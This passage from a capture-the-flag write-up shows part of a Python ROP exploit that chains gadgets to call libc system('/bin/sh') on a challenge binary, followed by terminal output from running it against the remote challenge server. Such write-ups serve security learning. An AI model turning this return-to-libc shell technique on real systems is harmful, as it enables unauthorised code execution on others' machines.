 ```

payload = padding
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rsi_r15)
payload += p64(0) * 2
payload += p64(pop_rdx)
payload += p64(0)
payload += p64(system_libc)
target.sendline(payload)

target.interactive()

target.interactive()
```
And here is what it looks like when run against the remote target:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/space_heroes$ python3 rule_of_two_exploit.py
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/space_heroes/libc6_2.33-3_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/space_heroes/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```